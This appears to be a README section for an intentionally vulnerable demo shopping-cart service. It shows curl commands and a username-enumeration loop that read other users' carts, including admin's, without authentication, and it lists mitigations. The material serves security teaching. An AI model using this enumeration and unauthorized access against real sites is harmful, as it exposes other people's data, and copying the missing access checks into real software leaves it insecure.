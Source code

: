 ### Exploitation

#### Setup - Create test carts:
```bash
# Add items to different users' carts
curl -X POST "http://localhost:9000/cart/add?user=alice&product=1"
curl -X POST "http://localhost:9000/cart/add?user=bob&product=2"
curl -X POST "http://localhost:9000/cart/add?user=admin&product=4"
```

#### Access Alice's cart:
```bash
curl "http://localhost:9000/cart?user=alice"
```

**Expected Result**: Successfully views Alice's cart contents without authentication.

#### Access Bob's cart:
```bash
curl "http://localhost:9000/cart?user=bob"
```

#### Access Admin's cart:
```bash
curl "http://localhost:9000/cart?user=admin"
```

#### Enumerate users:
```bash
# Try common usernames
for user in admin root user alice bob charlie; do
  echo "Checking cart for: $user"
  curl -s "http://localhost:9000/cart?user=$user" | grep "Shopping Cart"
done
```

### Mitigation
- Implement proper authentication
- Verify user authorization before accessing resources
- Use indirect references (UUIDs instead of usernames)
- Implement access control checks
- Log and monitor access attempts

---

## Additional Feature: Widget Endpoint (Jsoup Demo)

### Endpoint
`GET /header-widget`

### Description
This endpoint returns an HTML fragment containing a shopping cart widget. It demonstrates the use of jsoup for HTML parsing in the `DemoShoppingCartClient` class.
